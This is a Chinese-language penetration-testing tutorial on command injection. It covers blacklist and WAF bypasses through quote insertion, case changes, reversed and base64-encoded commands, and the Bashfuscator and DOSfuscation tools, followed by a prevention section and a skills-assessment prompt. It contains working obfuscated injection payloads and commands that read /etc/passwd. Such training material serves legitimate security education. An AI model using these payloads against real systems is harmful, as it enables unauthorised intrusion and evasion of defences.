绕过黑名单命令的方法则有所不同。命令黑名单通常包含一组单词，如果我们能够混淆命令并使其看起来不同，就有可能绕过过滤器。命令混淆的方法有很多种，复杂程度也各不相同，我们稍后会介绍命令混淆工具。这里我们将介绍一些基本技巧，这些技巧可以帮助我们改变命令的外观，从而手动绕过过滤器。

PHP 中一个基本的命令黑名单过滤器如下所示：

```php
$blacklist = ['whoami', 'cat', ...SNIP...];
foreach ($blacklist as $word) {
    if (strpos('$_POST['ip']', $word) !== false) {
        echo "Invalid input";
    }
}
```

它会检查用户输入的每个单词，看是否与黑名单中的任何单词匹配。然而，这段代码只寻找与提供的命令完全匹配的命令，因此如果我们发送一个略有不同的命令，它可能不会被拦截。幸运的是，我们可以使用各种混淆技术，在不使用确切命令词的情况下执行我们的命令。

一种非常常见且简单的混淆技术是在命令中插入某些字符，这些字符通常会被 Bash 或 PowerShell 等命令行 shell 忽略，执行的命令与没有这些字符时相同。这些字符包括单引号 ` '` 和双引号 `"`，以及其他一些字符。

#### 使用引号绕过

最简单易用的方法是使用引号，而且引号在 Linux 和 Windows 服务器上都适用。例如，如果我们想混淆 whoami 命令，可以在其字符之间插入单引号，如下所示：

```bash
$ w'h'o'am'i

21y4d
```

双引号也同样适用：

```bash
$ w"h"o"am"i

21y4d

```

要牢记的关键点是：**不能混合使用不同类型的引号，且引号数量必须为偶数**。我们可以在攻击载荷中尝试上述某一种写法（`127.0.0.1%0aw'h'o'am'i`），看看是否能够成功利用。



#### 仅限 Linux

我们可以在命令中间插入其他一些仅适用于 Linux 的特殊字符，Bash Shell 会忽略这些字符并正常执行命令。这类字符包括反斜杠 `\`和位置参数符 `$@`。其效果与使用引号完全相同，但区别在于：**这类字符的数量不必为偶数，我们甚至可以只插入单个字符。**

```bash
who$@ami
w\ho\am\i
```

#### 仅限 Windows 系统

还有一些仅限 Windows 使用的字符可以插入到命令中间，这些字符不会影响命令的执行结果，例如插入符号 ( `^` )，如下例所示：

## 高级命令混淆

### 大小写

我们可以使用的一种命令混淆技术是大小写操纵，例如反转命令的字符大小写（例如 WHOAMI ）或交替使用大小写（例如 WhOaMi ）。这种方法通常有效，因为命令黑名单可能不会检查单个单词的不同大小写形式，而 Linux 系统是区分大小写的。

```cmd
PS C:\htb> WhOaMi

21y4d
```

如果操作的是 Windows 服务器，我们可以更改命令字符的大小写并发送。在 Windows 系统中，PowerShell 和 CMD 命令不区分大小写，这意味着无论命令以何种大小写形式编写，它们都会执行该命令：

对于区分大小写的 Linux 和 bash shell（如前所述），我们需要发挥一些创造力，找到一个可以将命令转换为全小写单词的命令。以下是一个可行的命令：

```bash
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")

21y4d
```

我们还可以使用许多其他命令来实现相同的目的，例如以下命令：

```bash
$(a="WhOaMi";printf %s "${a,,}")
```

### 反转命令字符

在这种情况下，我们将使用 `imaohw`代替 `whoami `，以避免触发黑名单命令。

我们可以发挥创意，利用这些技巧创建自己的 Linux/Windows 命令，最终执行命令，而无需包含实际的命令词。首先，我们需要在终端中获取命令的反转字符串，如下所示：

```bash
$ echo 'whoami' | rev
imaohw
```

然后，我们可以通过在子 shell ( $() ) 中反向执行原始命令来执行它，如下所示：

```bash
$(rev<<<'imaohw')

21y4d
```

我们看到，即使命令中没有包含实际的 whoami 单词，它也能正常工作并提供预期的输出。

同样的方法也适用于 Windows. 我们可以先反转字符串，如下所示：

```cmd
PS C:\htb> "whoami"[-1..-20] -join ''

imaohw
```

现在我们可以使用以下命令通过 PowerShell 子 shell ( iex "$()" ) 执行反转后的字符串，如下所示：

```powershell
PS C:\htb> iex "$('imaohw'[-1..-20] -join '')"

21y4d
```

### 对命令进行编码

最后一种技术适用于包含被过滤字符或可能被服务器进行 URL 解码的字符的命令。这些字符可能会导致命令在到达 shell 时出现错误，最终导致执行失败。这次，我们不会直接复制现有的在线命令，而是尝试创建我们自己的独特的混淆命令。这样，它被过滤器或 Web 应用防火墙 (WAF) 拦截的可能性就大大降低了。我们创建的命令将根据允许的字符以及服务器的安全级别而有所不同。

我们可以使用各种编码工具，例如 base64 （用于 b64 编码）或 xxd （用于十六进制编码）。以 base64 为例。首先，我们将对要执行的有效载荷（包含过滤后的字符）进行编码：

```bash
$ echo -n 'cat /etc/passwd | grep 33' | base64

Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
```

现在我们可以创建一个命令，该命令将在子 shell ( $() ) 中解码编码后的字符串，然后将其传递给 bash 执行（即 bash<<< ），如下所示：

```bash
$ bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

> 提示：注意我们这里使用 <<< 是为了避免使用管道符 |，因为该字符通常会被安全规则过滤。

即使某些命令被过滤，例如 bash 或 base64 ，我们也可以使用上一节中讨论的技术（例如字符插入）绕过该过滤器，或者使用其他替代方案，例如 sh 用于命令执行， openssl 用于 b64 解码，或者 xxd 用于十六进制解码。

我们在 Windows 系统中也使用相同的技术。首先，我们需要对字符串进行 base64 编码，如下所示：

```powershell

PS C:\htb> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))

dwBoAG8AYQBtAGkA
```

在 Linux 系统上也可以实现同样的效果，但需要先将字符串从 utf-8 转换为 utf-16 ，然后再进行 base64 编码，如下所示：

```bash
$ echo -n whoami | iconv -f utf-8 -t utf-16le | base64

dwBoAG8AYQBtAGkA
```

最后，我们可以解码 b64 字符串，并使用 PowerShell 子 shell ( iex "$()" ) 执行它，如下所示：

```powershell
PS C:\htb> iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"

21y4d
```

正如我们所见，我们可以发挥创意，利用 Bash 或 PowerShell 创建以前从未用过的绕过和混淆方法，这些方法很可能绕过过滤器和 Web 应用防火墙 (WAF)。一些工具可以帮助我们自动混淆命令，我们将在下一节中讨论这些工具。

除了我们讨论过的技巧之外，我们还可以利用许多其他方法，例如通配符、正则表达式、输出重定向、整数扩展等等。我们可以在 [PayloadsAllTheThings 网站](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-with-variable-expansion)上找到一些这样的技巧。

### 练习

使用本节学到的任意一种技巧，找出以下命令的执行结果：`find /usr/share/ | grep root | grep mysql | tail -n 1`

`127.0.0.1%0at'a'il%09-n%091%09<<<%09$(g'r'ep%09mysql%09<<<%09$(g''rep%09root%09<<<%09$(fi'n'd%09${PATH:0:1}usr${PATH:0:1}share${PATH:0:1})))`

## 自动化混淆工具

## Linux (Bashfuscator)

我们可以使用 Bashfuscator 这个便捷的工具来混淆 bash 命令。我们可以从 GitHub 克隆该仓库，然后按如下方式安装其依赖项：

```bash
$ git clone https://github.com/Bashfuscator/Bashfuscator
$ cd Bashfuscator
$ pip3 install setuptools==65
$ python3 setup.py install --user
```

工具设置完成后，我们就可以从 ./bashfuscator/bin/ 目录开始使用它。该工具提供了许多参数，可以用来微调最终的混淆命令，如 -h 帮助菜单所示：

```bash
$ cd ./bashfuscator/bin/
$ ./bashfuscator -h

usage: bashfuscator [-h] [-l] ...SNIP...

optional arguments:
  -h, --help            show this help message and exit

Program Options:
  -l, --list            List all the available obfuscators, compressors, and encoders
  -c COMMAND, --command COMMAND
                        Command to obfuscate
...SNIP...
```

我们可以先简单地使用 -c 标志提供我们要混淆的命令：

```bash
$ ./bashfuscator -c 'cat /etc/passwd'

[+] Mutators used: Token/ForCode -> Command/Reverse
[+] Payload:
 ${*/+27\[X\(} ...SNIP...  ${*~}   
[+] Payload size: 1664 characters
```

然而，以这种方式运行该工具会随机选择一种混淆技术，导致命令长度从几百个字符到超过一百万个字符不等！因此，我们可以使用帮助菜单中的一些标志来生成更短更简单的混淆命令，如下所示：

```bash
$ ./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1

[+] Mutators used: Token/ForCode
[+] Payload:
eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"
[+] Payload size: 104 characters

```

现在我们可以使用 `bash -c '' `来测试输出的命令，看看它是否执行了预期的命令：

```bash
$ bash -c 'eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"'

root:x:0:0:root:/root:/bin/bash
...SNIP...
```

## Windows (DOSfuscation)

还有一个非常类似的工具，适用于 Windows 系统，叫做 DOSfuscation 。与 Bashfuscator 不同，DOSfuscation 是一个交互式工具，我们只需运行一次，即可通过交互来获取所需的混淆命令。我们可以再次从 GitHub 克隆该工具，然后通过 PowerShell 调用它，如下所示：

```
PS C:\htb> git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
PS C:\htb> cd Invoke-DOSfuscation
PS C:\htb> Import-Module .\Invoke-DOSfuscation.psd1
PS C:\htb> Invoke-DOSfuscation
Invoke-DOSfuscation> help

HELP MENU :: Available options shown below:
[*]  Tutorial of how to use this tool             TUTORIAL
...SNIP...

Choose one of the below options:
[*] BINARY      Obfuscated binary syntax for cmd.exe & powershell.exe
[*] ENCODING    Environment variable encoding
[*] PAYLOAD     Obfuscated payload via DOSfuscation
```

我们甚至可以观看 tutorial 来了解该工具的使用方法。准备就绪后，我们就可以按如下方式开始使用该工具：

```cmd
Invoke-DOSfuscation> SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
Invoke-DOSfuscation> encoding
Invoke-DOSfuscation\Encoding> 1

...SNIP...
Result:
typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt
```

最后，我们可以尝试在 CMD 中运行混淆后的命令，结果发现它确实按预期工作：

```cmd
C:\htb> typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt

test_flag

```

# 四. 预防

在我们应该对命令注入漏洞的产生机制以及如何绕过字符过滤器和命令过滤器等某些缓解措施有了较为深入的了解。本节将讨论我们可以用来防止 Web 应用程序中出现命令注入漏洞的方法，以及如何正确配置 Web 服务器以防止此类漏洞。

## 避免使用执行系统命令的函数

我们应该始终避免使用执行系统命令的函数，尤其是在使用用户输入的情况下。即使我们没有直接向这些函数输入用户信息，用户也可能间接地影响这些函数，最终导致命令注入漏洞。我们应该使用内置函数来实现所需功能，而不是使用系统命令执行函数，因为后端语言通常对这类功能有安全的实现。例如，假设我们想用 PHP 测试某个主机是否存活。在这种情况下，我们可以使用 fsockopen 函数，该函数不会被利用来执行任意系统命令。

如果我们需要执行系统命令，但找不到任何内置函数来实现相同的功能，那么我们绝不应该直接使用用户输入来执行这些函数，而应该始终在后端对用户输入进行验证和清理。此外，我们应该尽可能限制这类函数的使用，仅在没有内置函数可以替代所需功能时才使用它们。

## 输入验证

与许多其他 Web 开发语言一样， PHP 内置了针对各种标准格式（如电子邮件、URL 甚至 IP 地址）的过滤器，可以与 filter_var 函数一起使用，如下所示：

```php
if (filter_var($_GET['ip'], FILTER_VALIDATE_IP)) {
    // call function
} else {
    // deny request
}

```

如果要验证非标准格式，可以使用带有 preg_match 函数的正则 regex 。同样的方法也可以用 JavaScript 在前端和后端（例如 NodeJS ）中实现，如下所示：

```javascript
if(/^(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)$/.test(ip)){
    // call function
}
else{
    // deny request
}
```

就像 PHP 一样， NodeJS 也允许我们使用库来验证各种标准格式，例如 is-ip 库 。我们可以使用 npm 安装 is-ip 库，然后在代码中使用 isIp(ip) 函数。您可以阅读其他语言（例如 .NET 或 Java ）的手册，了解如何在每种语言中验证用户输入。

## 输入清理

防止注入漏洞最关键的一步是输入清理，也就是从用户输入中移除所有不必要的特殊字符。输入清理始终在输入验证之后执行。即使我们已经验证用户输入的格式正确，仍然应该进行清理，移除特定格式不需要的任何特殊字符，因为有时输入验证可能会失败（例如，使用了错误的正则表达式）。

在我们的示例代码中，我们看到，在处理字符和命令过滤器时，它会将某些单词列入黑名单，并在用户输入中查找这些单词。通常，这种方法不足以有效防止注入攻击，我们应该使用内置函数来移除所有特殊字符。我们可以使用 preg_replace 从用户输入中移除所有特殊字符，如下所示：

```php
$ip = preg_replace('/[^A-Za-z0-9.]/', '', $_GET['ip']);

```

如我们所见，上述正则表达式仅允许字母数字字符（ A-Za-z0-9 ）以及 IP 地址所需的点号（ . ）。任何其他字符都将从字符串中删除。同样的方法也可以用 JavaScript 实现，如下所示：

```javascript
var ip = ip.replace(/[^A-Za-z0-9.]/g, '');

```

## 服务器配置

* 除了外部 WAF（例如 Cloudflare 、 Fortinet 、 Imperva 等）之外，还应使用 Web 服务器内置的 Web 应用程序防火墙（例如 Apache mod_security ）。
* 遵循[最小权限原则（PoLP）](https://en.wikipedia.org/wiki/Principle_of_least_privilege) ，以低权限用户（例如 www-data ）身份运行 Web 服务器。
* 阻止 Web 服务器执行某些函数（例如，在 PHP 中， disable_functions=system,... ）
* 将 Web 应用程序的访问权限限制在其所在的文件夹内（例如，在 PHP 中为 open_basedir = '/var/www/html' ）。
* 避免使用敏感/过时的库和模块（例如 PHP CGI ）。
* 最后，即使采取了所有这些安全缓解措施和配置，我们仍然需要运用本模块中学习到的渗透测试技术，来检查 Web 应用程序的功能是否仍然存在命令注入漏洞。由于某些 Web 应用程序的代码量高达数百万行，任何一行代码中的任何一个错误都可能引入漏洞。因此，我们必须通过结合安全编码最佳实践和全面的渗透测试来确保 Web 应用程序的安全。

# 五. Skills Assessment

你受雇于一家公司进行渗透测试，在测试过程中，你偶然发现了一个有趣的 Web 文件管理器应用程序。由于文件管理器通常会执行系统命令，因此你对测试其是否存在命令注入漏洞很感兴趣。使用本模块中介绍的各种技术来检测命令注入漏洞，然后利用该漏洞，绕过任何已部署的过滤器。

在命令末尾注入我们的指令总比在命令中间注入更容易，尽管两者都是可能的。[这里](https://www.hackervice.com/ctf-labs/htb-certified-bug-bounty-hunter/command-injections/skills-assessment)
